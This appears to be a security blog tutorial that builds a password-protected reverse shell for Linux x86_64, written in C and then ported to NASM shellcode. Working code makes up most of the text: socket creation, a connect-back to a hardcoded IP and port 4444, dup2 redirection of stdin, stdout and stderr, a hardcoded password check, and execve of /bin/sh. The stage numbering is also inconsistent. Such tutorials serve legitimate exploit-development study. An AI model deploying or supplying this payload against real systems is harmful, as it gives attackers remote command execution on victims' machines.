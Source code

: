 ```yaml
---
title: "Implementing a password protected reverse shell in shellcode"
categories:
  - blog
---
```


The goal of the following blog post is to write shellcode for the Linux 64-bit architecture that will ultimately connect back to a remote machine and spawn a shell as well as requiring a password before any commands can be run inside the shell.

This blog post will follow a similar process to the bind shell process, but should be a little shorter seeing as a reverse shell is a little easier to implement in C, and Assembly, and because you should now be a little more familiar with most of the concepts.

We will step through the process again following the same framework:

<ol>
  <li>Firstly, we need to write the code, in the C Programming Language, for creating a socket and then connecting to a remote machine and password protecting it.</li>
  <li>Secondly, the C code needs to be ported to Linux x86_64 Assembly code.</li>
  <li>Lastly, all Null bytes need to be removed from the Assembly code and we need to look for opportunities to optimize our shellcode to keep the final payload as small as possible.</li>
</ol>

<h2>Writing a password protected reverse shell for Linux in C</h2>

<h3>What is a reverse shell?</h3>

A reverse shell is when a victim machine initiates a connection back to the attacker controller machine and spawns a shell upon connection. The reason we would want to use a reverse shell rather than a bind shell is usually to get past a firewall, that do not allow incoming connections, or a NAT solution. If we were to leave our compiled reverse shell lying around on a server that we tested for instance, then anybody would be able to use it. That is if the compiled binary accepts arguments, which ours does not in this case, but it should illustrate the point. In such a case, we hardcode the password so at least they will need to reverse engineer the binary, to find the password, before they can execute commands on the connect-back.

<h3>Creating the reverse shell</h3>

In the process of creating a bind shell, we will be stepping through 7 stages:

<ol>
  <li>Creating a new socket</li>
  <li>Initiate the connection back to remote server</li>
  <li>Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities.</li>
  <li>Wait for input (password) to be received and compare it against the correct password string</li>
  <li>Spawn the shell, if password is correct</li>
</ol>

Let's get started in coding out the reverse shell

<h3>Stage 1 - Creating a new socket</h3>

We will use the same skeleton program as before and import all our libraries and declare all variables:

```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<sys/types.h>
#include<netinet/in.h>
#include<string.h>
#include<strings.h>
#include<unistd.h>
#include<arpa/inet.h>


int main()
{
        struct sockaddr_in server;
        int sock;
        int sockaddr_len = sizeof(struct sockaddr_in);
        char *arguments[] = { "/bin/sh", 0, "4444", "127.0.0.1", "YOLOOOOOOO" };
        char buf[16];

}
```

Creating the socket is handled by the [socket](https://man7.org/linux/man-pages/man2/socket.2.html) syscall.

Referring to the man page for socket, it requires 3 arguments:

<ul>
    <li>Protocol Family - We will be using AF_INET (IPv4 Internet Protocols)</li>
    <li>Communication Type - We will use SOCK_STREAM (TCP)</li>
    <li>The third argument does not concern us so we will only pass 0</li>
</ul>

```c
sock = socket(AF_INET, SOCK_STREAM, 0);
```

The return value for the above syscall will be a file descriptor for the new socket.

<h3>Initiate the connection back to remote server</h3>

In this step we will construct our 'sockaddr' data structure and actually connect to our remote machine using the [connect](https://man7.org/linux/man-pages/man2/connect.2.html) syscall. Note that in this instance we will be using the localhost IP, but this can be changed to your remote IP Address.

The connect syscall takes 3 arguments:

<ul>
    <li>The socket to bind to - We will use our new socket "sock".</li>
    <li>Data structure of the remote attacker machine, which is essentially the IP Address and port that that will be bound to the socket. This data structure consists of 4 members that are each explained below.</li>
    <li>Length of the data structure passed in argument 2. This was declared during the skeleton code stage.</li>
</ul>

```c
server.sin_family = AF_INET; //Address Family
server.sin_port = htons(atoi(arguments[2])); //Network Byte order of the port to bind to. 
                                             //htons converts host byte order to network byte order
server.sin_addr.s_addr = inet_addr(arguments[3]); //Our remote IP Address defined in the variables (in this case localhost)
bzero(&server.sin_zero, 8); // 8 zero bytes of padding

connect(sock, (struct sockaddr *)&server, sockaddr_len);
```

<h3>Stage 5 - Map STDIN/STDOUT and STDERROR to the new socket for remote shell capabilities</h3>

For this stage we will be duplicating the file descriptor of our newly created socket and provide it with the basic shell capabilities. The dup2 syscall will do nicely for this purpose. We need to provide the file descriptor of our newly created socket and the integer assigned to STDIN (0), STDOUT (1) and STDERROR(2) to dup2.

```c
dup2(sock, 0);
dup2(sock, 1);
dup2(sock, 2);
```

```c
read(sock, buf, 16);
buf[strcspn(buf, "\n")] = 0;
if (strcmp(arguments[4], buf) == 0)
{        
      execve(arguments[0], &arguments[0], NULL);
}
       
```

```nasm
global _start

section .text

_start:

        ; create socket
        mov rax, 41
        mov rdi, 2
        mov rsi, 1
        mov rdx, 0
        syscall

        mov rdi, rax

        xor rax, rax

        push rax
        ; change IP as reverse hex as needed
        mov dword [rsp-4], 0x7b01a8c0
        mov word [rsp-6], 0x5c11
        mov word [rsp-8], 0x2
        sub rsp, 8


        ;connect(sock, (struct sockaddr *)&server, sockaddr_len)
        
        mov rax, 42
        mov rsi, rsp
        mov rdx, 16
        syscall

        mov rax, 33
        mov rsi, 0
        syscall

        mov rax, 33
        mov rsi, 1
        syscall

        mov rax, 33
        mov rsi, 2
        syscall

        xor rax, rax

        push r10
        mov rsi, rsp
        
        xor rdx, rdx
        mov rdx, 8
        syscall

        xor rax, rax
        ; password '8bytesss'
        mov rax, 0x7373736574796238
        mov rdi, rsi
        scasq
        jne exit

        xor rax, rax
        push rax

        mov rbx, 0x68732f2f6e69622f
        push rbx

        mov rdi, rsp

        push rax

        mov rdx, rsp

        push rdi
        mov rsi, rsp
        mov rax, 59
        syscall

exit:
        xor rax, rax
        mov rax, 60
        syscall
```
<h2></h2>
